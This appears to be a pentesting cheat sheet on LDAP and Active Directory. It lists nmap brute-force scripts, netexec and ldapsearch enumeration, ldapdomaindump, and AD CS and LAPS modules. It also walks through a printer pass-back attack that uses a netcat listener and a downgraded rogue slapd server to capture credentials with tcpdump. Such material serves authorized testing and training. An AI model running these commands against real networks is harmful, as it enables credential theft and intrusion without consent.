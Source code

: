 ```yaml
---
title: LDAP (Lightweight Directory Access Protocol) Pentesting
description: LDAP is a standard protocol designed to maintain and access "directory services" within a network. Default ports are 389 (LDAP), 636 (LDAPS), 3268 (LDAP connection to Global Catalog), 3269 (LDAP connection to Global Catalog over SSL).
tags:
  - Active
  - Directory
  - Windows
refs: 
date: 2024-02-18
draft: false
---
```


## Enumeration

```sh
# Nmap
nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
nmap --script ldap-search -p 389 <target-ip>
nmap --script ldap-* -p 389 <target-ip>
nmap --script "ldap* and not brute" -p 389 <target-ip>

# NetExec
# -k: Use Kerberos authentication
netexec ldap <target-ip> -u usernames.txt -p '' -k
# --trusted-for-delegation: Enumerate computers and users with the flag `TRUSTED_FOR_DELEGATION`
# reference: https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties#property-flag-descriptions
netexec ldap <target-ip> -u username -p password --trusted-for-delegation
```

<br />

## Search LDAP

Belows are defined in LDAP.

- **cn - Common Name**
- **dc - Domain Component**
- **ou - Organizational Unit**

```sh
# -x: Simple authentication
# -b: base dn for search
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldaps://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
# -D: bind DN
# -w: bind password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W

# Search sAMAccountName
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName"
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName" | grep sAMAccountName

# Get information
ldapsearch -x -H ldap://10.0.0.1 -b "cn=sample,cn=Users,dc=example,dc=com" -w 'password' "(objectclass=*)" -D "example\\name"
```

<br />

## Dump Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
# --no-html: Disable html output
# --no-grep: Disable greppable output
# -o: Output dir
ldapdomaindump -u 'DOMAIN\username' -p password <target-ip> --no-html --no-grep -o dumped
```

<br />

## Connect

### AD CS (Active Directory Certificate Services)

```sh
netexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
```

### LAPS (Local Administrator Password Solution)

```sh
netexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' --kdcHost <target-ip> -M laps
```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

Open a listener for connecting back to your local machine.

```sh
nc -vp 1389
```

In your browser, test LDAP settings where you input username and password.

### Host Rogue LDAP Server

If we cannot connect back in local machine by netcat, we need to create a rogue LDAP server.  
Install the dependencies at first.

```sh
sudo apt update
sudo apt install -y slapd ldap-utils
sudo systemctl enable slapd
``` 

Configure your own rogue LDAP server by executing the following command.

```sh
sudo dpkg-reconfigure -p low slapd

# ---------------------------------------------------

# in configuration dialog

1. Omit OpenLDAP server configuration: No
2. DNS domain name: <target-domain>
3. Organization name: <target-domain>
4. Administrator password: <arbitrary-password>
5. Database backend to use: MDB
6. Do you want the database to be removed when slapd is purged?: No
7. Move old database?: Yes
```

We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
Create the config file named "config.ldif".

```txt
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Now we can use the config file to patch the LDAP server.

```sh
# -Y: SASL mechanism
# -H: URI
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
sudo service slapd restart
```

We can verify that the rogue LDAP server’s configuration has been applied:

```sh
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

For capturing the credentials, run the following command.

```sh
sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
```

In browser, test the printer settings and capture the credentials via tcpdump.
